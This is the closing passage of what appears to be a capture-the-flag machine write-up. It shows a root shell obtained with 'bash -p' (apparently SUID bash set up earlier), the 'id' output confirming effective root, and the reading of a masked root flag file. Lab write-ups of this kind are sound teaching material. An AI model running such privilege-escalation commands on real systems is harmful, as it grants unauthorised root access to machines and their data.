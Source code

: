 We can now do the following:

alex@ubuntu:~$ /bin/bash -p
bash-4.3# id
uid=1000(alex) gid=1000(alex) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip) ,46(plugdev),113(lpadmin),128(sambashare),1000(alex)
bash-4.3# cat /root/root.txt
flag{****************}

In this way, we finished the machine, Thank you very much for reaching the end!

![finite](images/finito.png)